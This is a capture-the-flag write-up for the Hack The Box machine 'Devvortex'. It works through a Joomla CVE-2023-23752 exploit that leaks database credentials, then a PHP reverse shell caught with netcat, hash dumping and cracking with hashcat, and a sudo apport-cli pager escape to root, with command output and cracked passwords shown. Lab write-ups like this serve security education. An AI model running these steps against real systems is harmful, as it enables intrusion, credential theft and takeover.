



# Devvortex - Easy Machine
URL: https://app.hackthebox.com/machines/Devvortex

## User Flag 
Let's start reviewing the machine:
```bash
~z➤ curl -I devvortex.htb
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 29 Dec 2023 01:37:06 GMT
Content-Type: text/html
Content-Length: 18048
Last-Modified: Tue, 12 Sep 2023 17:45:54 GMT
Connection: keep-alive
ETag: "6500a3d2-4680"
Accept-Ranges: bytes
```

Leaked some info from HTML src:
- info@DevVortex.htb

By scanning the sub-domains I found this:
```bash
~z➤ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://devvortex.htb/ -H "Host: FUZZ.devvortex.htb" -fc 302
.....
 :: Method           : GET
 :: URL              : http://devvortex.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

[Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 219ms]
    * FUZZ: dev
```

Now let's scan that site **dev.devvortex.htb**.
It turns out to be a Joomla site:
```bash
~z➤ curl -s http://dev.devvortex.htb/huh | ag joomla
.....
        <link href="/media/vendor/joomla-custom-elements/css/joomla-alert.min.css?0.2.0" rel="stylesheet" />
    <script type="application/json" class="joomla-script-options new">{"joomla.jtext":{"ERROR":"Error","MESSAGE":"Message","NOTICE":"Notice","WARNING":"Warning","JCLOSE":"Close","JOK":"OK","JOPEN":"Open"},"system.paths":{"root":"","rootFull":"http:\/\/dev.devvortex.htb\/","base":"","baseFull":"http:\/\/dev.devvortex.htb\/"}}</script>
```



Let's use **joomscan**:
```bash
~z➤ joomscan --joomla-version --random-agent  -u http://dev.devvortex.htb
Processing http://dev.devvortex.htb ...
[+] Detecting Joomla Version
[++] Joomla 4.2.6
.....
```

### Exploiting Joomla 4.2.6 with CVE-2023-23752

```bash
~z➤ gem install httpx docopt paint
~z➤ git@github.com:Acceis/exploit-CVE-2023-23752.git

../z/exploit-CVE-2023-23752➤ ruby exploit.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
Wow, that was fast!

Ok we are now admin


Ok, now we have to upload a reverse php shell via its own Joomla Templates:


So a simple to our PHP file will help:
```bash
curl http://dev.devvortex.htb/administrator/templates/atum/foo.php

# Voila
../tmp/z➤ sudo nc -lvn -p 55555
[sudo] password for n0kt:
Connection from 10.10.11.242:52550
bash: cannot set terminal process group (861): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$
```

Nice we have mysql client installed:
```bash
www-data@devvortex:~$ mysql --version
mysql --version
mysql  Ver 8.0.35-0ubuntu0.20.04.1 for Linux on x86_64 ((Ubuntu))

www-data@devvortex:~$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@devvortex:~$ mysql -u lewis -h localhost -p
...
mysql> describe sd4fg_users;
describe sd4fg_users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int           | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint       | NO   | MUL | 0       |                |
| sendEmail     | tinyint       | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int           | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint       | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
17 rows in set (0.01 sec)

mysql> select name,username,email,password from sd4fg_users;
select name,username,email,password from sd4fg_users;
+------------+----------+---------------------+--------------------------------------------------------------+
| name       | username | email               | password                                                     |
+------------+----------+---------------------+--------------------------------------------------------------+
| lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+------------+----------+---------------------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```
Now we just need to crack that:
```bash
../tmp/z➤ hashcat -m 3200 -a 0  creds.txt /usr/share/dict/rockyou.txt --force
.....
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
.....
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
.....
```

```bash 
~z➤ ssh logan@devvortex.htb ls
logan@devvortex.htb's password:
user.txt
```
## Root Flag 
We have something here:
```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

That is a vulnerable version of apport, you have to get the PAGER enabled when using that apport-cli app, you can just run the command and call `--file-bug` wizard menu which will eventually pop a PAGER where you can open a shell, with root privs.:
```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli --file-bug

*** What kind of problem do you want to report?

Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
.....
Please choose (S/V/K/I/C): v
root@devvortex:/home/logan# ls ~/
root.txt
```

## TODOs
- Study CVE-2023-23752
